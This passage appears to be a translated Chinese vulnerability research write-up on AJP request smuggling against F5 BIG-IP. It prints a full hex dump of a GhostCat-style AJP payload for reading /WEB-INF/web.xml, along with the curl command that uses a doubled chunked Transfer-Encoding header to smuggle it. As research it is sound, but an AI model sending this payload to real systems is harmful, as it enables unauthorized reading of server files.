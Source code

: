 作为第一步，[RicterZ 的博客文章](https://ricterz-me.translate.goog/posts/2022-03-03-a-new-attack-method-ajp-request-smuggling.txt?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp)中获取了示例 AJP 有效负载实现，并将其指向我们知道会公开暴露的 URL——登录页面。

```bash
$ xxd raw.dat
00000000: 0008 4854 5450 2f31 2e31 0000 012f 0000  ..HTTP/1.1.../..
00000010: 0931 3237 2e30 2e30 2e31 00ff ff00 0161  .127.0.0.1.....a
00000020: 0000 5000 0000 0a00 216a 6176 6178 2e73  ..P.....!javax.s
00000030: 6572 766c 6574 2e69 6e63 6c75 6465 2e72  ervlet.include.r
00000040: 6571 7565 7374 5f75 7269 0000 012f 000a  equest_uri.../..
00000050: 0022 6a61 7661 782e 7365 7276 6c65 742e  ."javax.servlet.
00000060: 696e 636c 7564 652e 7365 7276 6c65 745f  include.servlet_
00000070: 7061 7468 0001 532f 2f2f 2f2f 2f2f 2f2f  path..S/////////
00000080: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000090: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000c0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000d0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000e0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000f0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000100: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000110: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000120: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000130: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000140: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000150: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000160: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000170: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000180: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000190: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001c0: 2f2f 2f2f 2f2f 2f2f 2f2f 000a 001f 6a61  //////////....ja
000001d0: 7661 782e 7365 7276 6c65 742e 696e 636c  vax.servlet.incl
000001e0: 7564 652e 7061 7468 5f69 6e66 6f00 0010  ude.path_info...
000001f0: 2f57 4542 2d49 4e46 2f77 6562 2e78 6d6c  /WEB-INF/web.xml
00000200: 00ff
$ curl -k -i http://our.f5.ami.ip:8443/tmui/login.jsp -H 'Transfer-Encoding: chunked, chunked' --data-binary @raw.dat
```

当我们第一次发送此有效负载时，服务器返回登录页面，这是正常且预期的响应。然后，我们利用先进的渗透测试技能多次重新运行 curl 命令，因为有时漏洞研究会多次执行相同的操作，但会以某种方式得到不同的结果。

在几次 curl 请求之后，会偶尔收到 404 Not Found 响应。因此我们反编译了相关的 Apache .so 模块，并将其实现与修补后的 httpd 源代码进行了比较。

在这篇博文中，将进一步深入探讨 AJP 数据包的工作原理，但上面的示例基本与从 Tomcat 的 ROOTwebapp（2020 年的默认 [PoCGhostCat 漏洞](https://paper.seebug.org/3066/(https://www.trendmicro.com/en_us/research/20/c/busting-ghostcat-an-analysis-of-the-apache-tomcat-vulnerability-cve-2020-1938-and-cnvd-2020-10487.html%20%22PoCGhostCat%20%E6%BC%8F%E6%B4%9E%22)%EF%BC%89])读取 /WEB-INF/web.xml 的内容相同）。默认情况下，F5-BIGIP 不运行 ROOT Web 应用程序，因此系统返回 404。通过在 `/usr/share/tomcat/webapps/ROOT/WEB-INF/web.xml` 显式创建文件，触发 GhostCat 的本地文件包含漏洞（LFI）。
